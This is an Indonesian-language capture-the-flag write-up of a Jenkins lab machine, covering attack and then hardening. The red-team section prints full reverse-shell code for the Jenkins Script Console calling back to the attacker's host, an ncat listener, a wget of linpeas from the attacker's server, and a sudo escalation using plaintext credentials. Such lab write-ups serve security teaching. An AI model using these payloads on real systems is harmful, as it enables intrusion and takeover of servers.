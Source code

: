 # Persiapan
pertama kita scan dengan `rustscan`
```
rustscan -a 10.10.234.56 -- -A -sC | tee zcan-fast
...
Open 10.10.234.56:22                                                                                                                 
Open 10.10.234.56:8080
...
```
selanjutnya kita bisa masuk sebagai admin dengan creds `admin:SuperStrongPassword123` menggunakan ssh
```
ssh admin@IP-target
```

# Red Team
Setelah itu buka IP-target dengan port 8080 `http://IP-target:8080`, dan kita mendapatkan service Jenkins. Selanjutnya kita dapat mendapatkan shell dengan revshell, dengan memanfaatkan `Manage Jenkins -> Script Console` (ada dibawah, scorll). Selanjutnya inputkan salah satu revshell code berikut
```
# Windows
String host="IP-local";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();


#Linux
String host="IP-local";
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Selanjutnya persiapkan listener `rlwrap ncat -lvnp PORT`, dan run code revshell yang ada di browser tadi. Nantinya kita akan mendapat shell session. Selanjutnya kita stabilize shell dengan cara
1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. (CTRL+Z) lalu `stty -a`
3. `stty raw -echo; fg`
4. `stty rows <int>` -> masukkan angka hasil `stty -a` bagian rows
5. `stty cols <int>` -> masukkan angka hasil `stty -a` bagian columns

Jika sudah mendapat revshell yang stabil, selanjutnya kita dapat upload linpeas ke target.
1. `python3 -m http.server 5120` (diasumsikan **linpeas.sh** ada di cwd local)
2. `wget http://IP-local:5120/linpeas.sh` (lakukan di revshell target)
3. `chmod +x linpeas.sh` (lakukan di revshell target)
4. `./linpeas.sh`

hasilnya adalah kita menemukan file di `/opt/scripts/backup.sh` yang memiliki isi menarik
```
...
...
username="tracy"
password="13_1n_33"
Ip="localhost"
sshpass -p "$password" scp /var/lib/jenkins/backup.tar.gz $username@$Ip:/home/tracy/backups
/bin/sleep 10
```

kita menemukan creds user **tracy** yaitu `tracy:13_1n_33`, dan creds tersebut digunakan untuk melakukan backup dengan program `sshpass`. Kita dapat ssh ke user **tracy** dengan creds tersebut, `ssh tracy@IP-target`. Setelah ke user **tracy**, kita dapat coba `sudo -l`, dan hasilnya, ternyata user **tracy** termasuk kedalam sudoers grup yang mana berarti kita dapat menjalankan semua aplikasi. Kita bisa langsung `sudo su` dan memasukkan password dari user **tracy** untuk menjadi root. Selanjutnya kita dapat mengambil root flag di `/root/flag.txt`.

# Blue Team
Dari sisi red team sudah dilakukan, saatnya kita melakukan hardening system sebagai blue team. Untuk langkah awal, kita dapat memulainya dengan menghapus user **tracy** dari sudoers grup menggunakan akun admin yang kita miliki dengan cara
```
sudo deluser tracy sudo
```
jika sudah, maka ketika dicek dengan user **tracy** kita dapat melihat bahwa kita tidak akan bisa melakukan `sudo -l -U tracy` lagi dengan indikasi munculnya error **"User tracy is not allowed to run sudo on jenkins."**. Namun itu tidak akan berefek ke session yang dibuat saat ini, kita dapat cek dengan re-login ssh di user **tracy** atau berganti user sebagai **tracy** di revshell session dengan `su tracy`, dan command `sudo -l`, nantinya akan muncul error **"Sorry, user tracy may not run sudo on jenkins."**.

Perubahan satu ini saja sudah bisa memberikan perbedaan dalam mendapatkan root akses dan menjadi user **tracy**. Sekarang attacker akan tersisa 3 pilihan:
- enumerate server lebih jauh untuk semua rute yang possible.
- cari cara untuk melakukan perpindahan secara lateral dalam sistem ke user dengan akses root possible.
- cari target yang berbeda. 

Setelah semua itu, kita dapat melakukan hardening lagi, dan kali ini karena masih terdapat celah untuk bisa login ssh, kita dapat menonaktifkan login SSH berbasis password sehingga kita dapat menggagalkan kemungkinan login SSH melalui plaintext creds. Kita dapat masuk sebagai berubah menjadi **root** dengan cara `sudo su` untuk menjadi root shell. Selanjutnya pada admin shell (yang sudah menjadi root), kita edit file `/etc/ssh/sshd_config` dengan vim/nano. Dan ubah beberapa hal berikut
Sebelum
```
...
# default value.

Include /etc/ssh/sshd_config.d/*.conf
...
# To disable tunneled clear text passwords, change to no here!
# PasswordAuthentication yes
<flag>
...
```

Sesudah
```
...
# default value.

#Include /etc/ssh/sshd_config.d/*.conf
...
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication no
<flag>
...
```
selain itu, kita juga akan dapat flag di ssh config file ini.

Lalu restart service `ssh` dengan cara `systemctl restart ssh` (jika sudah jadi root shell). Jika kita connect `ssh` ke user **tracy**, maka akan error `tracy@10.10.223.161: Permission denied (publickey).`. Untuk hardening lagi, kita dapat ganti password dari tiap user (**admin** dan **tracy**) dengan cara `passwd <username>` (harus dalam kondisi root shell) lalu memasukkan password yang baru.

Selanjutnya promoting zero-trust. Jadi jika kita buka `http://IP-target:8080/` maka kita akan bisa langsung punya akses ke Jenkins, hal ini tentunya tidak aman sama sekali. Jadi kita dapat mengubah config file untuk Jenkins ini. Terdapat 2 file config di `/var/lib/jenkins` yaitu `config.xml` dan `config.xml.bak`. Jika kita compare keduanya, terdapat hal yang berbeda di `config.xml.bak` yang memiliki
```
<!--authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
  </authorizationStrategy-->
  <flag>
  <!--securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm-->
```
yang mana script tersebut memiliki fungsi untuk memunculkan login form untuk service Jenkins. Kita edit menjadi
```
<authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizationStrategy">
    <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
  </authorizationStrategy-->
  <flag>
  <securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
    <disableSignup>true</disableSignup>
    <enableCaptcha>false</enableCaptcha>
  </securityRealm>
```
Selanjutnya kita hapus file `config.xml` dengan `rm`, lalu copy atau ubah nama file `config.xml.bak` ke `config.xml`, dan tidak lupa untuk restart service `systemctl restart jenkins`.